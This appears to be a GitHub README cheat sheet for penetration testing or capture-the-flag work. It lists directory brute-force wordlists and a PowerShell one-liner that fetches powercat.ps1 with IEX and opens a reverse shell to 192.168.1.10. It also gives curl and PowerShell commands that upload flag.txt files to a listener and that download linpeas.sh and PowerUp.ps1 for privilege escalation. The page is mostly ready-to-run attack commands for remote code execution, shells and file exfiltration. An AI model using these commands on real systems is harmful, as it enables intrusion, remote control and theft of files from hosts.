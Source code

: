 # Cybersecurity Tools and Files
# Dictionaries
Web Directory Brute Force - Directory List 2.3 Small (87664 Lines)
```
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/directory-list-2.3-small.txt
```
Web Directory Brute Force - Big.txt (20476 Lines)
```
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/big.txt
```
Web Directory Brute Force - Common.txt (4727 Lines)
```
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt
```
# PowerCat
```
https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1
```
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.1.10 -p 9999 -e powershell
```
# HTTP Server for Upload and Download
```bash
https://raw.githubusercontent.com/voidascent/sec/main/httpserver.py
```
Usage
```bash
python3 httpserver.py # Default Port 8000
python3 httpserver.py -p 8888 # Running on Port to 8888
```
Curl (Linux and Windows cmd)
Curl Upload
```
curl -F 'file=@/home/ubuntu/Desktop/flag.txt' http://192.168.10.10:8000/
```
Curl Download
```
curl -O http://192.168.10.10:8000/download/linpeas.sh
```
PowerShell (Supported in PowerShell 3.0 and later)
PowerShell Upload
```
$FilePath = "C:\Users\Administrator\Desktop\flag.txt"; $Url = "http://192.168.10.10:8000/"; Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $content = New-Object System.Net.Http.MultipartFormDataContent; $fileStream = [System.IO.File]::OpenRead($FilePath); $fileContent = New-Object System.Net.Http.StreamContent($fileStream); $content.Add($fileContent, "file", [System.IO.Path]::GetFileName($FilePath)); $result = $client.PostAsync($Url, $content).Result; $result.Content.ReadAsStringAsync().Result
```
PowerShell Download
```
Invoke-WebRequest -Uri "http://192.168.10.10:8000/download/PowerUp.ps1" -OutFile "C:\Users\Administrator\Desktop\PowerUp.ps1"
```
